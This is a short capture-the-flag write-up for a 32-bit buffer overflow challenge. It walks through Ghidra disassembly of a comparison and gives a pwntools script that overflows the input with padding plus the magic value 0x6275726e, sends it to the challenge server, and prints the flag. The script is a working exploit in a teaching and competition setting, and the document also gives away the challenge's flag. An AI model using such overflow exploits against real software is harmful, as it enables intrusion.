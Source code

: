 # Classic Buffer-overflow


**The challenge was to overflow the input buffer and pass a compare.**


opening up the binary in ghidra and looking at the functions section
we can see that we have a main function.

Looking at the disassembly for main we first see all 
the local variables being set and then some strings being printed.

![Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/crash-override/1.png)

Looking further we get a very interesting disassembly

```asm
0001139a 81 7d f4  CMP  dword ptr [EBP + -0xc]=>local_14,0x6275726e
000113a1 75 07     JNZ  LAB_000113aa
000113a3 e8 c5 fe  CALL access_granted
         ff ff
```

if `local_14` is equal to `0x6275726e`
we will jump to `access_granted` and if not we jump to `LAB_000113aa`
which just throws at us "Not authenticated" and our row number.

![LAB Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/crash-override/2.png)


## The attack plan

So with all this information we can start to build out our exploit

first we know that we have control over `local_14` because that's the input we provide. Overflowing the buffer by sending in 15 A's then passing in the address given in the disassembly should give us a shell.

```python
#!/usr/bin/python3

from pwn import *

padding = b"A"*15
payload = padding + p32(0x6275726e)

r = remote('0xa.is', 31337)
r.recvuntil('Key: ')
r.sendline(payload)

print(r.recv().decode('Latin-1'))
r.interactive()
```


#### Flag: 10an{r4bb1t_flu5h0t_50m30n3_t4lk_t0_m3}

